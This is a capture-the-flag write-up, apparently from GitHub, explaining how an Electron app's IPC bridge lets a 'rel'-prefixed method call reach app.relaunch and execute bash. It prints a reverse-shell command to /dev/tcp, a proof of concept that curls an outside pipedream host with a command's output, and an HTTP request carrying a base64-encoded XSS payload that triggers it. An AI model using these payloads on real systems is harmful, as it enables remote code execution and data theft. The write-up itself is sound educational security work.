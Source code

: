 By executing this line code, the code on line [2] will come into action:

```
window.api.invoke("RELsummary","test")
```

The `action` variable will have this value `RELsummary` and `args` will have `test`. On line [3] , a call like this will be made. This eventually calls the RELsummary method and the console.log message will be printed

```
app.RELsummary("test")
```


This looked interesting as it allows to call any method available from the `app` object (https://www.electronjs.org/docs/latest/api/app) also there is regex check which only allows actions which starts from REL (`/i` means case insensitive)

Searching for a method under app object which starts from rel , point us to this https://www.electronjs.org/docs/latest/api/app#apprelaunchoptions

![image](https://user-images.githubusercontent.com/31372554/198941664-00013eef-a978-4732-8301-2327010f4074.png)

I was solving this challenge in the last moment and I had some other works to also do, so wasn't able to solve this (as it would have taken me some time to figure it out how to achieve rce through relaunch method). After the ctf ended I checked the solution and the solution was really using `app.relaunch` method 

Thanks to @zeyu200 for this:

```js
window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']}) // it will evaluate to the below code
app.relaunch({execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']})
```

To get the flag here's the final poc:

```js
window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'curl "https://en2celr7rewbul.m.pipedream.net/v2?=$(/printflag)"']})
```


Replace the `houseId` and `token` parameter according to your accout.

```
POST /sell HTTP/2
Host: relapi.flu.xxx
Content-Length: 298
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) REL/1.0.0 Chrome/94.0.4606.81 Electron/15.5.7 Safari/537.36
Content-Type: application/json
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{"houseId":"_yTPmi9bfl","token":"61e6887048465eed383d6d9f5cd32c86","message":"<img src=x onerror=eval(atob('d2luZG93LmFwaS5pbnZva2UoJ3JlbGF1bmNoJyx7ZXhlY1BhdGg6ICdiYXNoJywgYXJnczogWyctYycsICdjdXJsICJodHRwczovL2VuMmNlbHI3cmV3YnVsLm0ucGlwZWRyZWFtLm5ldC92Mj89JCgvcHJpbnRmbGFnKSInXX0p'))>","price":"1"}
```

![image](https://user-images.githubusercontent.com/31372554/198945644-fe0cd51d-bd05-4ec0-bc0f-339bef10325d.png)

`flag{congrats_on_your_firstRELauncHv2}`
